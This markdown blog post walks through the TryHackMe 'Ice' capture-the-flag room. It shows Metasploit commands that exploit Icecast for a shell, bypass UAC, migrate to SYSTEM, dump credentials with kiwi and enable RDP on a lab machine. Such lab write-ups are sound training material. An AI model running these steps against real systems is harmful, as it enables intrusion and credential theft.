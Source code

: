 ```yaml
---
slug: ice-walkthrough
title: TryHackMe - Ice - Walkthrough
authors: bw
tags: [learning, ice, tryhackme, walkthrough]
---
```


This is a walkthrough for room: [Ice][ice-r], on [TryHackMe][thm]. This is an easy walkthrough room. Let’s get started!

# Recon
We are going to start with an `nmap` scan:

![i1](/static/img/thm/ice/i1.png)

We can utilize the `nmap` scan to answer the first 3 questions of the room.

# Gain Access
Let’s do some googling and look for the CVE score of the icecast vulnerability. Here is a link to the list of vulnerabilities: [Link][ice-v]. Here we find out next two answers.

Start metasploit:

```bash
msfconsole
search icecast ##(find next answer)
use 0
options
set rhosts 10.10.35.203
set lhost tun0 ##(if needed)
run
```
Wow. We got a shell! That was pretty easy. Let’s continue on!

![i2](/static/img/thm/ice/i2.png)

# Escalate
We get the first answer right away. Next let’s run the following for more answers:

`getuid`
`sysinfo`
**NOTE:** Normally, I would back out of this exploit, and change the payload of our meterpreter shell to x64 instead of our current x86 (we always want those to line up), but in this case I am just going to keep going.

```bash
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/bypassuac_eventvwr
options
set sessions 1 #(Your session could be a different number)
set lhost tun0
set lport 4445 #(We already have a session on 4444)
run
getprivs
```
We now have elevated permissions! Last answer can be found from the output of the `getprivs` command.

![i3](/static/img/thm/ice/i3.png)

# Looting
Let’s run `ps`, where we find our next answer:

![i4](/static/img/thm/ice/i4.webp)

Now we can migrate to that process with `migrate -N <process_name>`

**NOTE:** We can also migrate by using the Process ID (PIC): `migrate 692`

Now when we run getuid we are: `NT AUTHORITY\SYSTEM`. WOOHOO!

```bash
load kiwi
help
creds_all
```
With that, we have completed this section! Almost done!

# Post-Exploitation
Run `help` to answer all the questions in this section.

Enable RDP: `run post/windows/manage/enable_rdp`

# Extra Credit
That’s all there is to this room! Try doing the manual exploitation on your own!

# Review
This was a really interesting walkthrough room. While it was heavily guided, I liked how it followed the process of how you would do a pentest on the machine in a way that somewhat resembles the real-world. I hope you enjoyed this walkthrough!

References
[Ice Room][ice-r] | [TryHackMe][thm] | [Icecast Vulns][ice-v]

[ice-r]: https://tryhackme.com/r/room/ice
[thm]: https://tryhackme.com
[ice-v]: https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-16877/Icecast-Icecast-2.0.1.html